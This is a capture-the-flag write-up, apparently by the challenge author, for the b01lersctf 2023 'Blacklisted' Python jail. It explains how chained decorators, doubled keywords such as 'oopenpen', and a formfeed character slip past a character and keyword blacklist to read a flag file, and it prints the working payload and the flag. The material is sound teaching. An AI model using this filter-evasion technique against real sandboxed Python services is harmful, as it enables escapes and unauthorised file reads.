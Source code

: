 ```yaml
---
layout: post
title:  "Blacklisted - b01lersctf 2023"
date:   2023-03-17 22:00:00
categories: writeups
tags: misc pyjail jail 2023 author
excerpt: My author writeup for the blacklisted challenge in b01lersctf
mathjax: false
---
```

* content
{:toc}
13 solves - 389 points - author writeup

## Challenge Description
`You can run anything on this!`

## Final Solution

```python
>>> @pprintrint
>>> @sorted
>>> @oopenpen
>>> @input
>>> class^LX:pass
```
type in:
```
secret_folder/flag.txt
```
## Explanation

After looking at the blacklist string we realize that most of the things we could use for functions
are blacklisted. Even the space character isn't allowed!

`blacklist = "._0x6/|?*[]{}<>\"'=()\\\t "`

and

`blacklist2 = ['eval', 'exec', 'compile', 'import', 'os', 'sys', 'cat', 'ls', 'exit', 'list', 'max', 'min', 'set', 'tuple']`

You should notice that the @ character is allowed. Signifiying that we can use decorators to bypass the restrictions.

Python decorators work in the following way:

```python
@print
@input
class X:
    pass
```

is equivalent to:

```python
X = input(X)
X = print(X)
```

So we need someway to get the secret_folder/flag.txt file using just these decorators.
We know that the open function in python allows us to read in a file. 
So we can use the open decorator to read in the file specified by input.

This would look something like the following:

```python
@print
@open
@input
class X:
    pass
```

which is equivalent to:

```python
X = input(X)
X = open(X)
X = print(X)
```

A problem can be spotted when running this code, however, because the open function returns a file object, not the file contents. So we get something that looks like this:

```python
<_io.TextIOWrapper name='sample_file_name' mode='r' encoding='UTF-8'>
```

We need to get the contents of the file, not the file object. A file object is considered an iterable in python, so we can use a function that takes in an iterable. The sorted function does this. So we can use the sorted decorator to get the contents of the file.

```python
@print
@sorted
@open
@input
class X:
    pass
```

Running this code in a python file gives us file read access, but we notice that this code is not working in the interpreter. This is because of the blacklists. We aren't allowed to use spaces, in `class X:`. A simple fix for this is to use the formfeed character, which has similar properties to a space in python. This is allowed in the blacklist, so we can use it to bypass the space restriction. "" is the formfeed character.


Another thing we realize is that the `open` and `print` words are also blacklisted. This is an easy bypass as we can just replace them with `pprintrint` and `oopenpen` respectively. This works because `print` and `open` get substituted in for empty characters.

This gives us our final payload:

```python
@pprintrint
@sorted
@oopenpen
@input
class^LX:pass
```
Note ^L is the formfeed character.

Which when run, all we have to do is type in the flag file name and we get the flag returned to us as a list.

> `bctf{w41t_h0w_d1d_y0u_d3c0r4t3_th4t?}`


